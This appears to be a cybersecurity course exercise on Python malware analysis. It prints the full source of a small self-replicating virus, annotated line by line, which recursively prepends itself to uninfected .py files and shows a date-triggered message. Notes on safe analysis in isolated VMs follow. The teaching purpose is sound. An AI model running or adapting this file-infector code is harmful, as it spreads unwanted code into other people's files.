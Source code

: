 ### Perform an analysis of the Python-based code.

Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

```python
#!/usr/bin/python3 # This tells the computer to use python3 to run the script
import os # This imports the os module
import datetime # This imports the datetime module

SIGNATURE = "VIRUS" # This sets the variable SIGNATURE to VIRUS

# The def locate(path): function is used to locate the path of the file
def locate(path): # This defines the function locate
    files_targeted = [] # This sets the variable files_targeted to an empty list
    filelist = os.listdir(path) *# his sets the variable filelist to the list of files in the path
    for fname in filelist: # This starts a for loop that will iterate through the list of files
        if os.path.isdir(path+"/"+fname): # This checks if the file is a directory
            files_targeted.extend(locate(path+"/"+fname)) # This extends the list of files_targeted with the list of files in the directory
        elif fname[-3:] == ".py": # This checks if the file is a python file
            infected = False # This sets the variable infected to False
            for line in open(path+"/"+fname): # This starts a for loop that will iterate through the lines in the file
                if SIGNATURE in line: # This checks if the line contains the signature
                    infected = True # This sets the variable infected to True
                    break # This breaks the for loop
            if infected == False: # This checks if the variable infected is False
                files_targeted.append(path+"/"+fname) # This appends the file to the list of files_targeted
    return files_targeted # This returns the list of files_targeted

# The def infect(files_targeted): function is used to infect the files in the list of files_targeted
def infect(files_targeted): # This defines the function infect
    virus = open(os.path.abspath(__file__)) # This opens the file
    virusstring = "" # This sets the variable virusstring to an empty string
    for i,line in enumerate(virus): # This starts a for loop that will iterate through the lines in the file
        if 0 <= i < 39: # This checks if the line is between 0 and 39
            virusstring += line # This adds the line to the virusstring
    virus.close # This closes the file
    for fname in files_targeted: # This starts a for loop that will iterate through the list of files
        f = open(fname) # This opens the file
        temp = f.read() # This sets the variable temp to the contents of the file
        f.close() # This closes the file
        f = open(fname,"w") # This opens the file in write mode
        f.write(virusstring + temp) # This writes the virusstring and the contents of the file to the file
        f.close() # This closes the file

# The def detonate(): function is used to detonate the virus
def detonate(): # This defines the function detonate
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9: # This checks if the date is May 9th
        print("You have been hacked") # This prints the message

# The final three lines of code are used to call the functions.  This is what actually tells the computer to activate the code
files_targeted = locate(os.path.abspath("")) # This sets the variable files_targeted to the list of files in the current directory
infect(files_targeted) # This calls the function infect with the list of files as the argument
detonate() # This calls the function detonate
```

# Demo

# Ops Challenge - Python Malware Analysis

## Demo Code

Analyzing malware code can be a potentially risky task, as it involves handling potentially harmful code that can infect systems. However, if you follow proper precautions and use a safe environment, you can minimize the risks.

The demo code below introduces concepts necessary to complete the challenge.


```python
#!/usr/bin/env python3

def changeme( mylist ):
   mylist.append([1,2,3,4]);
   print("Values inside the function: ", mylist)
   return

mylist = [10,20,30];
changeme( mylist );
print("Values outside the function: ", mylist)

```

Break the code into pieces. Identify each component. Use what you know. For example, you know functions must be declared before they can be called.

```python
#!/usr/bin/env python3

# Function definition is here

def changeme( mylist ):
# This changes a passed list into this function

   mylist.append([1,2,3,4]);
   print("Values inside the function: ", mylist)
   return

# The function changeme has been declared. Now you can call changeme function.

# First, the script declares a variable called "mylist" as [10,20,30]
mylist = [10,20,30];

# The function changeme is called with the parameter "mylist" inserted.
changeme( mylist );

# Prints a string then the contents of "mylist" variable
print("Values outside the function: ", mylist)
```

By translating the code line by line and using the concepts we know, we can gradually interpret the meaning of code written by another person.


## Notes

Here are some recommended steps to analyze malware code safely:

1. Isolate the Environment
    - Create a controlled and isolated environment to analyze the malware. Use a dedicated VM or an offline system that is not connected to your network or critical infrastructure. This prevents the malware from spreading or causing damage beyond the isolated environment.
2. Analyze Indicators of Compromise (IOCs)
    - Identify any potential indicators of compromise, such as file names, registry entries, or network connections associated with the malware. Analyze these IOCs to understand the impact and potential mitigation strategies.
3. Use a Debugger
    - A debugger is a useful tool that allows you to pause the execution of the code in order to inspect it's behavior. However, exercise caution when using these tools, as some malware may be designed to detect and evade analysis.
4. Analyze in a Controlled Network
    - If network behavior analysis is required, connect the virtual machine to an isolated network environment, such as a separate subnet or virtual network. Monitor the network traffic and interactions of the malware within this controlled environment.
